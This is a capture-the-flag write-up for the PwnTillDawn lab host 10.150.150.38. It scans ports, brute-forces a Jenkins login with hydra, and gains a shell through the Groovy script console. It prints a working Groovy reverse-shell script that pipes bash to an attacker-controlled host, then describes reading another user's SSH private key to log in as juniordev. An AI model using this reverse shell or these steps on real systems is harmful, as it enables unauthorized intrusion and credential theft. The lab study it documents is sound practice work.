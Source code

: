 # 10.150.150.38 - PWNTILLDAWN WRITEUP

The following ports were found using rustscan

![](images/rustscan_results.png)

I served the ports to nmap and got found a http site

![](images/nmap_results.png)

It was a jekins login page, i tried the usual default login pairs but none worked.

![](images/jekins_failed_default.png)

After some digging I decided to use hydra to bruteforce it

![](images/hydra_command.png)

We got a hit :grin: !

![](images/hydra_success.png)

Inputed the details and we have a dashboard now.

![](images/jekins_dashboard.png)

Looked around and found a flag under the `people` tab

![](images/people.png)

Looked around a bit more and found out i could run scripts here. Found a walkthrough on how to get a shell using "Jekins Groovy Scirpt" here: `https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6`

I pasted the code into the groovy scripts input box 

```
String host="ip";
int port="port";
String cmd="bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

```

Then started a netcat listener and ran the script

![alt text](images/shell.png)

Found another Flag

![alt text](images/flag70.png)

Ran Linpeas but no dice, looked around and found another user `juniordev`, the user has a `.ssh` folder but i cannot `-ls -la` the folder due to permission issues

![](images/junirdevlsla.png)

But funny enough I can `cat` out it's presumed contents:

![](images/cat.png)

Copy paste and ssh into junior dev and voila we are juniordev


